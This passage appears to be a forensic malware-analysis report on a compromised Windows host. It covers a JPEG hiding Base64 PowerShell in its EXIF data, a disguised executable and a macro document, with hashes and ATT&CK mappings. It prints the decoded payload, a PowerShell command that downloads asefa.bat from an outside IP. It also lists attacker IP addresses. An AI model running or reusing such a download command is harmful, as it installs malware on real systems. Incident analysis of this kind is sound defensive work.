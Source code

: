 **Hash Verification:** ✅ SHA256 matches malware analysis report exactly

**Analysis:**
This JPEG image file contains malicious Base64-encoded PowerShell commands hidden in its EXIF metadata. The embedded commands download asefa.bat from the external IP address 108.181.155.31 and save it to C:\ProgramData.

**Embedded Payload (Decoded):**
```powershell
cmd /c powershell invoke-webrequest -uri 'http://108.181.155.31/asefa.bat' 
-outfile 'c:\programdata\asefa.bat'
```

**MITRE ATT&CK Mapping:**
- **T1027.003** - Obfuscation: Steganography
- **T1059.001** - Command and Scripting: PowerShell
- **T1105** - Ingress Tool Transfer
- **T1140** - Deobfuscate/Decode Files or Information

---

#### 2.1.2 image_downloader.exe ⚠️ HIGH SEVERITY

**File Details:**
```
Location: C:\Windows\Temp\image_downloader.exe
SHA256: E84471E37E726FC614A8044E83CB97E4A78EF5B7CC5CE8B5DE440AE724ECB910
MD5: 5207fe630502c3ff2515dd49683c9b2e
File Size: 42,496 bytes (41.5 KB)
Created: October 26, 2025, 11:12:04 AM
Modified: October 26, 2025, 11:05:32 AM
Last Accessed: October 26, 2025, 11:12:04 AM
```

**Hash Verification:** ✅ SHA256 matches malware analysis report exactly

**Analysis:**
PE executable disguised as an image downloader. Downloaded by SecurityAdvisory.docm from IP address 192.168.1.2. Contains HTTP/HTTPS protocol strings and references to multiple IP addresses, indicating network communication capabilities.

**Known Capabilities:**
- Network communication (HTTP/HTTPS)
- Contains hardcoded IP addresses (165.73.244.11, 65.73.244.11, 5.73.244.11)
- References "Startup" for potential persistence
- Downloaded and saved to C:\Windows\Temp by macro document

**MITRE ATT&CK Mapping:**
- **T1105** - Ingress Tool Transfer
- **T1071.001** - Application Layer Protocol: Web Protocols
- **T1547** - Boot or Logon Autostart (potential)

---

#### 2.1.3 SecurityAdvisory.docm ⚠️ HIGH SEVERITY

**File Details:**
```
Location: C:\Users\IEUser\Documents\SecurityAdvisory.docm
SHA256: 7183FBF556628A122F3E51C62034DCC428A79586F1F7EB7C94600968CA2EB66A
MD5: 92910b8ec24ace49e3a6eecf3670ff57
File Size: 16,971 bytes (16.5 KB)
Created: October 26, 2025, 11:12:04 AM
Modified: October 26, 2025, 11:05:32 AM
Last Accessed: October 26, 2025, 11:12:04 AM
```
